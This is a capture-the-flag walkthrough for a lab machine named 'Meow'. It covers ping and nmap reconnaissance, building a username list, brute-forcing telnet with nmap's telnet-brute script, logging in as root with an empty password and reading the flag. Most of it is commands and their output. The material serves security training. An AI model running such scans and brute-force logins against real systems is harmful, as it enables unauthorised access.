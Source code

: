 # Meow

Use ping to check if the host is up.
```console
kali@kali:~$ ping 10.129.173.21 -c 1
PING 10.129.173.21 (10.129.173.21) 56(84) bytes of data.
64 bytes from 10.129.173.21: icmp_seq=1 ttl=63 time=10.2 ms

--- 10.129.173.21 ping statistics ---
1 packets transmitted, 1 received, 0% packet loss, time 0ms
rtt min/avg/max/mdev = 10.203/10.203/10.203/0.000 ms
```

Run an nmap scan on the top 1000 ports.
```console
kali@kali:~$ nmap -A 10.129.173.21
Starting Nmap 7.92 ( https://nmap.org ) at 2022-12-14 23:52 EST
Nmap scan report for 10.129.173.21
Host is up (0.022s latency).
Not shown: 999 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
23/tcp open  telnet  Linux telnetd
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 22.58 seconds
```

Run a concurrent nmap scan on all ports.
```console
kali@kali:~$ nmap -A 10.129.173.21 -p-
Starting Nmap 7.92 ( https://nmap.org ) at 2022-12-14 23:51 EST
Nmap scan report for 10.129.173.21
Host is up (0.011s latency).
Not shown: 65534 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
23/tcp open  telnet  Linux telnetd
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 48.30 seconds
```

Make a ‘Meow’ directory for the lab machine.
```console
kali@kali:~$ sudo mkdir Meow
```

Navigate to the ‘Meow’ directory.
```console
kali@kali:~$ cd Meow
```

Search for very short user and password lists due to the low rate limit for telnet connections attempts.
```console
kali@kali:~/Meow$ sudo find -L /usr/share/wordlists/ -iname "*common*" -exec wc -w {} +
     9 /usr/share/wordlists/metasploit/http_owa_common.txt
 13755 /usr/share/wordlists/metasploit/vxworks_common_20.txt
    10 /usr/share/wordlists/metasploit/sap_common.txt
  4744 /usr/share/wordlists/metasploit/common_roots.txt
    44 /usr/share/wordlists/dirb/mutations_common.txt
  4617 /usr/share/wordlists/dirb/common.txt
    28 /usr/share/wordlists/dirb/extensions_common.txt
   492 /usr/share/wordlists/fern-wifi/common.txt
    44 /usr/share/wordlists/wfuzz/general/mutations_common.txt
   951 /usr/share/wordlists/wfuzz/general/common.txt
    28 /usr/share/wordlists/wfuzz/general/extensions_common.txt
    51 /usr/share/wordlists/wfuzz/others/common_pass.txt
 24773 total
```

We will use /usr/share/wordlists/wfuzz/others/common_pass.txt as the password list. Make your own username list with probable usernames.
```console
kali@kali:~/Meow$ sudo vi users.txt 
```

```console

admin
administrator
local
root
user
remote
meow
```

Use nmap with the telnet-brute script to bruteforce the telnet credentials.
```console
kali@kali:~/Meow$ nmap -p 23 --script telnet-brute --script-args userdb=users.txt,passdb=/usr/share/wordlists/wfuzz/others/common_pass.txt,telnet-brute.timeout=60s 10.129.173.21    

Starting Nmap 7.92 ( https://nmap.org ) at 2022-12-15 00:54 EST
Nmap scan report for 10.129.173.21
Host is up (0.015s latency).

PORT   STATE SERVICE
23/tcp open  telnet
| telnet-brute: 
|   Accounts: 
|     root:<empty> - Valid credentials
|_  Statistics: Performed 370 guesses in 122 seconds, average tps: 2.5

Nmap done: 1 IP address (1 host up) scanned in 132.22 seconds
```

Login to telnet with the credentials we discovered, root:<empty>, and retrieve the flag.
```console
kali@kali:~/Meow$ telnet 10.129.173.21 23
Trying 10.129.173.21...
Connected to 10.129.173.21.
Escape character is '^]'.

  █  █         ▐▌     ▄█▄ █          ▄▄▄▄
  █▄▄█ ▀▀█ █▀▀ ▐▌▄▀    █  █▀█ █▀█    █▌▄█ ▄▀▀▄ ▀▄▀
  █  █ █▄█ █▄▄ ▐█▀▄    █  █ █ █▄▄    █▌▄█ ▀▄▄▀ █▀█


Meow login: root
Welcome to Ubuntu 20.04.2 LTS (GNU/Linux 5.4.0-77-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Thu 15 Dec 2022 05:59:44 AM UTC

  System load:           0.0
  Usage of /:            41.8% of 7.75GB
  Memory usage:          5%
  Swap usage:            0%
  Processes:             138
  Users logged in:       0
  IPv4 address for eth0: 10.129.173.21
  IPv6 address for eth0: dead:beef::250:56ff:feb9:957a


75 updates can be applied immediately.
31 of these updates are standard security updates.
To see these additional updates run: apt list --upgradable


The list of available updates is more than a week old.
To check for new updates run: sudo apt update
Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings


Last login: Thu Dec 15 05:54:59 UTC 2022 on pts/3
root@Meow:~# whoami
root
root@Meow:~# ls
flag.txt  snap
root@Meow:~# cat flag.txt
****************************4c19
```
